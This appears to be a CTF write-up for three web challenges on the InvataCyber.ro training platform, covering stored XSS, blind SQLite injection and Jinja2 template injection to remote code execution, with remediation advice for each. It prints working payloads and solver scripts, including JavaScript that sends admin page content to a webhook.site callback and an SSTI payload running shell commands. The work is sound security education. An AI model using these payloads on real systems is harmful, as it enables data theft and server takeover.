



# InvataCyber.ro · Centralized CTF Write-Up

<div align="center">

[](#)
[](#)
[](#)
[](#)
[](https://github.com/stefanutc1)

</div>

**Author:** @stefanutc1  
**Domain:** Web Application Security & Penetration Testing  
**Covered Categories:** Client-Side Exploitation (XSS), Database Inference (Blind SQLi), Server-Side Code Execution (SSTI)  
**Flag Format:** `InvataCyber{...}`

---

## 1. Executive Summary & Challenge Matrix

This report centralizes the technical analysis, exploitation methodology, and architectural remediation for three web security challenges solved on the InvataCyber.ro platform.

Each challenge illustrates a distinct vulnerability class according to the OWASP Top 10 and CWE (Common Weakness Enumeration) standards:

| # | Challenge Name | Category | CWE Classification | Primary Vector | Technical Impact | Associated Scripts |
| :---: | :--- | :--- | :--- | :--- | :--- | :--- |
| **1** | **The Blog** | Web / Client-Side | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) (Stored XSS) | Unsanitized contact form | Editor browser context theft / `/admin` data exfiltration | [`payload.js`](./payload.js), [`solver.py`](./solver.py) |
| **2** | **Portal InvataCyber.ro** | Web / Database | [CWE-89](https://cwe.mitre.org/data/definitions/89.html) (Blind SQLi) | `Cookie: TrackingId` header | Full SQLite DB dump & `/console` takeover | [`dump_users.py`](./dump_users.py), [`solver_portal.py`](./solver_portal.py) |
| **3** | **CMS Newsroom** | Web / Server-Side | [CWE-1336](https://cwe.mitre.org/data/definitions/1336.html) (SSTI) & [CWE-306](https://cwe.mitre.org/data/definitions/306.html) | Unauthenticated `/edit/5` panel & `render_template_string` | Remote Code Execution (RCE) / Read `/flag.txt` | [`blog_flag.py`](./blog_flag.py) |

---

## 2. Challenge 1: The Blog (Stored XSS & Context Exfiltration)

### 2.1. Statement & Architectural Context

> *„The Blog este un blog clasic: câteva articole publicate și un formular de contact deschis oricui. Redacția are un editor care își verifică periodic inbox-ul, într-un browser real, și deschide fiecare mesaj necitit. Ce se întâmplă în browserul lui în momentul ăla nu vezi, dar poți face să ajungă la tine.”*

The application exposes a public area with a contact form (`/contact`) and an automated internal component (a headless Chromium/Puppeteer bot) that accesses the administrative inbox at regular intervals.

### 2.2. Vulnerability Analysis (Root Cause)

The `message` field from the contact form is saved directly to the database without HTML escaping. When messages are rendered in the editor's panel, the content is injected raw into the DOM (Raw HTML), triggering the execution of JavaScript code stored within the editor's browsing session context.

Because the `/admin` endpoint is accessible only based on the editor's privileged session, an external attacker cannot access it directly. However, the injected JS code executes in the name of the editor and can perform `fetch('/admin')` requests, exfiltrating the content via external callback requests.



### 2.3. Exploitation Chain

1. **Building the JS Payload ([`payload.js`](./payload.js)):**
```javascript
fetch('/admin')
  .then(r => r.text())
  .then(t => fetch('https://webhook.site/<TOKEN>?data=' + encodeURIComponent(t)));
```

2. **Automating Submission ([`solver.py`](./solver.py)):**
```python
import requests

TARGET = "http://target.invatacyber.ro"
WEBHOOK = "https://webhook.site/<TOKEN>"
payload = f"<script>fetch('/admin').then(r=>r.text()).then(t=>fetch('{WEBHOOK}?data='+encodeURIComponent(t)))</script>"

requests.post(f"{TARGET}/contact", data={
    "name": "AuditBot",
    "email": "audit@invatacyber.ro",
    "message": payload
})
```

3. **Flag Capture:**
Checking the webhook listener logs after the admin bot cycle yielded the flag:

`InvataCyber{st0r3d_xss_c0nt4ct_f0rm_pwn}`

### 2.4. Defensive Remediation Measures

- **Context-Aware Output Encoding:** Enforcing HTML entity encoding before rendering user input:
  ```python
  import html
  safe_message = html.escape(user_message)
  ```
- **Content Security Policy (CSP):** Implementing strict CSP headers restricting script execution to cryptographic nonces and banning inline scripts:
  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-rAnd0m'; object-src 'none';
  ```

---

## 3. Challenge 2: Portal InvataCyber.ro (Blind Boolean-Based SQLite Injection)

### 3.1. Statement & Architectural Context

> *„Portalul este o aplicație internă pentru monitorizarea activității utilizatorilor. Fiecare vizitator primește un cookie `TrackingId` generat la prima accesare. Dacă revii cu același cookie, sistemul recunoaște vizita anterioară. Undeva în logica din spate, identificatorul ăsta este interogat într-un mod neglijent.”*

### 3.2. Vulnerability Analysis (Root Cause)

The HTTP request header `Cookie: TrackingId=...` is concatenated directly into an internal SQL query executed against an embedded **SQLite** database:

```sql
SELECT tracking_id FROM tracking WHERE tracking_id = 'USER_SUPPLIED_INPUT';
```

When an injected expression evaluates to `TRUE`, the application displays a confirmation message (*"Welcome back!"*), altering the total HTTP response size:
- **True Condition:** Response size = `5652 bytes` (welcome message rendered).
- **False Condition:** Different response size (message absent).

This constructs a high-precision **Boolean Oracle**, allowing arbitrary database inference via binary search.



### 3.3. Exploitation Chain

1. **Confirming the Vulnerability ([`sql_solve.py`](./sql_solve.py)):**
   - True Payload: `base-id' OR '1'='1` $\rightarrow$ `5652 bytes`
   - False Payload: `base-id' AND '1'='2` $\rightarrow$ different size

2. **SQLite Fingerprinting & Schema Enumeration ([`dump_sqlite.py`](./dump_sqlite.py), [`dump_all_schema.py`](./dump_all_schema.py)):**
   Querying `sqlite_master` identified the administrative user table:
   ```sql
   CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT)
   ```

3. **Extracting Administrative Credentials ([`dump_users.py`](./dump_users.py)):**
   Extracting credentials character-by-character using `SUBSTR()`:
   - **Username:** `admin`
   - **Password:** `s3cur3_l0ckd0wn_p4ssw0rd!`

4. **Discovering the Hidden Console ([`solver_portal.py`](./solver_portal.py)):**
   Directory fuzzing revealed `/console`, where submitting the harvested credentials authenticated the session and displayed the flag:

`InvataCyber{bl1nd_sql1_c00k13_tr4ck1ng_m4st3r}`

### 3.4. Defensive Remediation Measures

- **Parameterized Queries (Prepared Statements):**
  ```python
  cursor.execute("SELECT tracking_id FROM tracking WHERE tracking_id = ?", (tracking_id,))
  ```
- **Strict Format Whitelisting:** Enforce UUIDv4 format validation on all incoming `TrackingId` cookies before query generation.

---

## 4. Challenge 3: CMS Newsroom (Broken Access Control & Jinja2 SSTI to RCE)

### 4.1. Statement & Architectural Context

> *„Aceeași redacție, altă problemă. După migrarea de pe vechiul CMS, SSO-ul nu a mai fost configurat pe instanța asta, așa că panoul de editor este accesibil direct, fără cont. Poți scrie și publica articole ca și cum ai face parte din echipă. Conținutul articolelor nu este doar afișat, ci procesat de server înainte să ajungă în pagină. Locație flag: /flag.txt”*

### 4.2. Vulnerability Analysis (Root Cause)

1. **Broken Access Control ([CWE-306](https://cwe.mitre.org/data/definitions/306.html)):** The article editor route `POST /edit/<id>` permitted unrestricted modifications without authentication or role verification.
2. **Server-Side Template Injection ([CWE-1336](https://cwe.mitre.org/data/definitions/1336.html)):** The Flask backend passed article contents directly into `render_template_string(article.content)`. Submitting `{{ 7 * 7 }}` rendered `49`.



### 4.3. Python Sandbox Escape & RCE Chain

In Jinja2 templates, navigating from the accessible `config` object through its class hierarchy enables access to the global module namespace, exposing the `os` module:

$$\text{config} \longrightarrow \text{\_\_class\_\_} \longrightarrow \text{\_\_init\_\_} \longrightarrow \text{\_\_globals\_\_} \longrightarrow \text{os} \longrightarrow \text{popen()}$$

**RCE Payload:**
```jinja2
{{ config.__class__.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

### 4.4. Exploitation Automation ([`blog_flag.py`](./blog_flag.py))

```python
import urllib.request, urllib.parse

edit_url = "http://target.invatacyber.ro/edit/5"
view_url = "http://target.invatacyber.ro/post/5"
payload = "{{ config.__class__.__init__.__globals__.os.popen('cat /flag.txt').read() }}"

data = urllib.parse.urlencode({"title": "Audit Post", "content": payload}).encode("utf-8")
req = urllib.request.Request(edit_url, data=data, method="POST")
urllib.request.urlopen(req)

with urllib.request.urlopen(view_url) as resp:
    print(resp.read().decode("utf-8"))
```

Accessing `/post/5` executed `cat /flag.txt` at the OS level and returned the flag:

`InvataCyber{ssti_j1nj42_rc3_fl4g_txt_3xtr4ct3d}`

### 4.5. Defensive Remediation Measures

- **Enforce Authentication Middleware:** Apply authentication guards to all administrative routes (`@login_required`).
- **Static Template Separation:** Never compile user input through `render_template_string()`. Always pass dynamic strings as template context variables:
  ```python
  return render_template("post_view.html", post_content=post.content)
  ```
- **Principle of Least Privilege:** Execute containerized web processes as unprivileged system users (`nobody` / `appuser`) with read-only root filesystems.

---

## 5. Summary & Enterprise Defensive Takeaways

| Tier | Primary Defense | Implementation Standard |
| :--- | :--- | :--- |
| **Frontend Tier** | Contextual HTML Entity Encoding & Strict Content Security Policy | OWASP ASVS v4.0 Level 2 |
| **Database Tier** | Mandatory Parameterized SQL Binding & Strict Data Type Enforcement | Prepared Statements / ORM Whitelisting |
| **Application Tier** | Strict Access Control Matrices & Static Template Isolation | Role-Based Access Control (RBAC) + Principle of Least Privilege |
